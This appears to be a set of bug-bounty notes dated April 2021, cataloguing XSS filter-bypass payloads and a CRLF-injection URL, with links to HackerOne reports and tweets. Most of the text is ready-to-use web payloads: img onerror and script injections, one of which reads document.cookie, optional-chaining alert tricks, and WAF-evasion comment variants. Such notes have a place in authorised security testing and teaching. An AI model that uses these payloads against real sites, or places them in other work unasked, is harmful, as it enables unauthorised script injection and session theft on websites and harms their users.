 ## XSS Bypass Tip
Hot XSS tip: did you know `window.alert?.()` and `(window?.alert)` will pop an alert? The ?. is a feature called optional chaining and as far as I can tell it's not in any popular XSS payload lists. Worth trying if you're looking for filter bypasses!
![img](https://pbs.twimg.com/media/EygnbstWUAAodo0?format=png&name=small)

## XSS Payload via email
`hello"><img/src="x"onerror=alert(document.domain)>@mail.com`
***source : https://hackerone.com/reports/1107726***

### XSS on glassdoor
```js
"&gt;&lt;img+src+onerror=confirm&amp;#x00028;1&amp;#x00029;&gt;
```
***Source : https://hackerone.com/reports/789689***

## CRLF Injection
- https://hackerone.com/reports/1038594
### Example
```text
https://www.abc.com/%0D%0ASet-Cookie:crlfinjection=crlfinjection
```

## Reflected XSS Successfull payloads
```js
<b onmouseover=alert('Wufff!')>click me!</b>
"><script>propmt("mamunwhh")</script>
"><script>alert(document.cookie)</script>
/><svg src=x onload=confirm("1337");>
"><div onmouseover="alert('XSS');">Hello :)
```
# 📅 15-Apr-2021
## Chrome Extension Pentesting
- https://twitter.com/harshbothra_/status/1382049428165390338?s=20

## Reflected XSS Payload

### Payload
```js
"><img src=x onerror=alert(1)> on every input field
'-alert(1)-' (WAF 405)
'-alert/**/(1)-' (WAF 405)
'-alert/*any*/(1)-' (Success)
```
![img](https://pbs.twimg.com/media/EyswkGtU4Ac3K3J?format=jpg&name=small)
